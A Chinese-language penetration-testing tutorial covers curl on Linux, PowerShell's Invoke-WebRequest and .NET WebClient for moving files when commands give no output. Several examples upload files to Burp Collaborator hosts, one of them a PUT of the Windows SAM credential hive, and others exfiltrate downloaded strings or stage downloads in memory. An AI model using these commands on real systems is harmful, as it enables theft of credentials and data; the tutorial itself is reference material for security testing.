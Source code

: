 # curl详解

## 0x00 前言

在渗透测试中经常需要在艰难的环境下执行命令，比如没有回显。为了摆脱困境，经常需要传送文件。curl是一个非常厉害的工具，在绝大多数情况下，linux系统中是存在curl的。此外Windows系统中，powershell4.0及其以后的版本中提供了一个cmlet——`Invoke-WebRequest`，其别名之一是curl。所以，简单记录一下curl的用法。

## 0x01 Linux中的curl

### 1.http请求

* **get**

curl 命令后面直接跟url；使用-H指定请求头，每个-H指定一条header；使用 -o 指定输出到具体文件而不是标准输出。

```bash
curl 'https://files.college.360.cn/others/Q1NBQS3lhoXnvZHmuJfpgI_mioDmnK8t56ysMTbor74tU01C5Y2P6K6uLnBkZg==?time=1537360082&sign=5fd0f26e3346e8171e8656caaa42b0fc' -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36' -H 'Referer: https://admin.college.360.cn/user/student/course/1032'
```

* **post**

普通表单post，使用-d指定请求体内容。

```bash
curl -d "user=admin&passwd=12345678" http://127.0.0.1:8080/login
```

文件表单post，使用-F指定需要上传的文件。

```bash
curl http://oumchi.burpcollaborator.net -F "6379.txt=@6379.txt"

# 发送出的请求如下：
# POST / HTTP/1.1
# Host: oumchi.burpcollaborator.net
# User-Agent: curl/7.58.0
# Accept: */*
# Content-Length: 1978
# Content-Type: multipart/form-data; boundary=------------------------c9011604f054ee36
# Expect: 100-continue

# --------------------------c9011604f054ee36
# Content-Disposition: form-data; name="6379.txt"; filename="6379.txt"
# Content-Type: text/plain


# Starting Nmap 7.60 ( https://nmap.org ) at 2018-09-01 08:25 UTC
# Stats: 0:01:21 elapsed; 0 hosts completed (64 up), 64 undergoing SYN Stealth Scan
# SYN Stealth Scan Timing: About 3.82% done; ETC: 09:00 (0:34:01 remaining)
# Stats: 0:01:21 elapsed; 0 hosts completed (64 up), 64 undergoing SYN Stealth Scan
# SYN Stealth Scan Timing: About 3.82% done; ETC: 09:00 (0:33:59 remaining)
# Stats: 0:01:21 elapsed; 0 hosts completed (64 up), 64 undergoing SYN Stealth Scan
# SYN Stealth Scan Timing: About 3.83% done; ETC: 09:00 (0:33:55 remaining)

# --------------------------c9011604f054ee36--

```

* put

```bash
curl http://6biy7e.burpcollaborator.net/ -T ca_setup.exe
```

* 其它方法测试

```bash
curl http://www.example.com -X OPTIONS
curl http://www.example.com -X TRACE
...
```

### 2.ftp请求

* **get**

```bash
curl ftp://user:passwd@ftpserver.com:port/path/filename -o filepath
```

* **put**

```bash
curl –u name:passwd -T size.mp3 ftp://www.xxx.com/mp3/
```

* **ls(dir)**

```bash
curl ftp://user:passwd@ftpserver.com:port/path/
```

* **delete**

```bash
curl –u name:passwd ftp://www.xxx.com/ -X 'DELE mp3/size.mp3'
```

### 3.其他

```ba&#39;sh
-u, --user <user:password> 需要口令验证的http或ftp
--ntlm 使用htlm认证
-A, --user-agent <name> 指定请求头中的user-agent字段
--socks5 <host[:port]> 使用sockes5代理
-x, --proxy [protocol://]host[:port] 使用http/https代理
 
--post301       Do not switch to GET after following a 301 不跳转301
--post302       Do not switch to GET after following a 302 不跳转302
--post303       Do not switch to GET after following a 303 不跳转303

```





## 0x02 Windows中的curl

powershell 中的curl是`Invoke-WebRequest`，它的另一个别名是wget。它是使用`-Headers <IDictionary>`来指定请求头，powershell5.x即以前版本可以指定所有请求头，之后的版本UserAgent只能通过`-UserAgent <String>`指定。

```powershell
Invoke-WebRequest [-Uri] <Uri> [-Body <Object>] [-Certificate <X509Certificate>] [-CertificateThumbprint <String>] [-ContentType <String>] [-Credential <PSCredential>
    ] [-DisableKeepAlive] [-Headers <IDictionary>] [-InFile <String>] [-MaximumRedirection <Int32>] [-Method { Default | Get | Head | Post | Put | Delete | Trace | Options
     | Merge | Patch}] [-OutFile <String>] [-PassThru] [-Proxy <Uri>] [-ProxyCredential <PSCredential>] [-ProxyUseDefaultCredentials] [-SessionVariable <String>] [-Timeou
    tSec <Int32>] [-TransferEncoding {chunked | compress | deflate | gzip | identity}] [-UseBasicParsing] [-UseDefaultCredentials] [-UserAgent <String>] [-WebSession <Web
    RequestSession>] [<CommonParameters>]
```

### 1.http

* **get**

使用-UserAgent 指定UA，使用-Headers指定请求头，使用-OutFile指定输出到文件。若不使用-OutFile，将返回一个HtmlWebResponseObject对象，只在屏幕上显示部分摘要信息，若要显示详细信息可以先将其存入变量，再查看变量content等属性。若只想产看响应体，可用管道符传给`write-host`,如`curl ifconfig.me | write-host` 。

```powershell
Invoke-WebRequest -Uri "https://files.college.360.cn/others/Q1NBQS3lhoXnvZHmuJfpgI_mioDmnK8t56ysMTbor74tU01C5Y2P6K6uLnBkZg==?time=1537360082&sign=5fd0f26e3346e8171e8656caaa42b0fc" -Headers @{"Accept"="*/*"; "Referer"="https://admin.college.360.cn"} -UserAgent "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36" -OutFile xxx.pdf
```

* **post**

在使用非get方法时必须用-Method指定请求方法；请求体可以用-body指定一个string或其它类型的对象，也可以从本地文件获取内容作为请求体，使用-infile指定本地文件。

```powershell
curl http://lti9gf.burpcollaborator.net -Method post -Body "user=admin&passwd=12345678" 
```

* **put**

如果服务器支持put方法，可以直接put上传文件

```powershell
curl http://lti9gf.burpcollaborator.net -Method put -InFile ‪C:\sam.hive
```

### 2.ftp

似乎只能下载文件

```powershell
curl ftp://user:password@127.0.0.1:21/s2-057.py -outFile s2-057.py
```

## 0x03 net.webclient

在powershell4.0以前没有提供`Invoke-WebRequest`,这时我们可以使用Net.WebClient，它是.NET Framework中的一个类。它的功能更加强大。

```powershell
#ftp下载
(New-Object System.Net.WebClient).downloadfile('ftp://admin:admin@172.28.100.68/ppt.txt','ppt.txt')

#ftp上传
(New-Object System.Net.WebClient).uploadfile('ftp://admin:admin@172.28.100.68/ppt1.txt','ppt.txt')

#http上传
(New-Object System.Net.WebClient).uploadfile('http://8060wg.burpcollaborator.net','ppt.txt')

#http下载文件
(New-Object System.Net.WebClient).downloadfile('http：//172.28.100.68/ppt.txt','ppt.txt')

#下载到内存
$response=(New-Object System.Net.WebClient).downloadstring('http：//172.28.100.68/ppt.txt')#得到string
$response=(New-Object System.Net.WebClient).downloaddata('http：//172.28.100.68/ppt.txt')#得到byte[]
#从内存上传
(New-Object System.Net.WebClient).uploadstring('http://8060wg.burpcollaborator.net',$response)
(New-Object System.Net.WebClient).uploaddata('http://8060wg.burpcollaborator.net',$response)

#指定请求头
$mywebclient=(New-Object System.Net.WebClient);
$mywebclient.Headers.Add("Cookie"," HMACCOUNT=057DAB164B4FC7D1; BAIDUID=3C7BA5C29716B9F251F8BC090E0BF028:FG=1; BIDUPSID=3C7BA5C29716B9F251F8BC090E0BF028; PSTM=1532227383")
$mywebclient.Headers.Add("Referer","https://newtab.firefoxchina.cn/world-tab-index.html")
$mywebclient.downloadstring('http://8060wg.burpcollaborator.net')


```
